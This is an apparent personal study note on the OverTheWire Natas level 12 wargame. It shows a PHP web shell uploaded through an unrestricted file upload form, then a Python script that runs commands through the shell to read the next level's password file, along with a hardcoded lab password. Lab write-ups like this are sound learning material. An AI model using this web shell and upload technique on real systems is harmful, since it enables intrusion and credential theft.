 
2024-07-14 18:54

Source: #youtube #overthewire #natas #web 

Tags: [[Local File Inclusion & Command Injection]]

Natas12

we have a unrestricted file upload functionality 

create a [[php]] file named `revshell.php` with the following contents, we will modify the `c` parameter later 
```
<?php
	system($_GET['c']);
?>
```

```
import requests
username = 'natas12'
password = 'yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB'

url = 'http://natas12.natas.labs.overthewire.org/'
sessions = requests.Session()

#response = sessions.post(url,files = {"uploadedfile" : open('revshell.php','rb')},data = {"filename": "revshell.php"},auth = (username,password))

response = sessions.get(url + 'upload/kx42yjw6zv.php?c=cat /etc/natas_webpass/natas13',auth = (username,password))

print(response.text)
```
1. commented code uploads our created `php` file  using `.post` method  
2. the output of the commented code will reveal the newly created file name on the server of the file that we uploaded 
3. in our case the path is `upload/kx42yjw6zv.php`
4. we append the path to the `url` and try executing commands by adding our commands to the previously defined `c` parameter.

### References
https://www.youtube.com/watch?v=fqwxYowJA0c
